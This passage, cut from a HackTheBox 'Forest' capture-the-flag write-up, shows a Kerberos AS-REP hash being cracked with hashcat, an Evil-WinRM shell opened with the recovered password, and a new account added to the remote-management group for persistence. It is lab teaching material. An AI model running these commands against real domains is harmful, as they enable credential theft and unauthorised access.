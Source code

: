 [Exit: 0] 22:19:
{{< / highlight >}}

Now let's fire up hashcat and get this password.

{{< highlight markdown >}}
notkali@gpu:[~/tmp]:
[Exit: 0] 22:18: hashcat -m 18200 --force -a 0 hash ~/src/SecLists/Passwords/Leaked-Databases/rockyou.txt


$krb5asrep$23$svc-alfresco@HTB.LOCAL:81301001ab2c010fdccd72827f025a77$cb4aaa6a0b1f6f2d2a3fcb7fb46f2cc119e8bb5e3837779206d900a07bd8d4c4f4e4315fff492a8b6c4e5b326e98027b242de4c087635410de9c2b5a33471c65c490a419b9d669d79c32d303f43a26654068f96d7ea13d6447e5bbd7d955a7d5143f3999ccd92a3ca3e099ca74ba4783c954e22f5a1ca810b5195be415ef98e0a9767c3d4586dd03df574a1620ac1ba317024e9f7382c202870b7ccbcd21c3cb58ba70b23bd2f1a81c62941c070530655d1da6dcb7e3a91f99924e0f78792659c62064a0dd0cd1b26864c214b947efd53bc8bbf6ba62bb7c943234908b03bc913f12b38ed688:s3rvice
{{< / highlight >}}

We saw earlier that winrm is accessible, so let's get a shell as svc-alfresco with the password we cracked and see if we can get the user flag for this machine.

{{< highlight markdown >}}
root@kali:[~/ctf/forest]:
[Exit: 0 0] 22:37: evil-winrm -i forest -u'HTB\svc-alfresco' -p's3rvice' -s ~/src/PowerSploit/Privesc/

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> type user.txt
e5e4e47a************************
{{< / highlight >}}

[Excellent.](https://www.offensive-security.com/excellent.mp3)

## Privesc / Root Flag

Once I had a foothold as the svc-alfresco user and started poking around, I quickly learned that this account, and others that existed when the machine was spawned seemed to be getting reset pretty frequently. This was making it challenging to do my enumeration to find a privesc, so I ended up creating a fresh user account and granting permission to that account so that I could continue.

{{< highlight markdown >}}
# ricknmorty1 created with svc-alfresco acct! :)

# This localgroup controls access to winrm, so add our user to it:

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote management Users" ricknmorty1 /add
The command completed successfully.
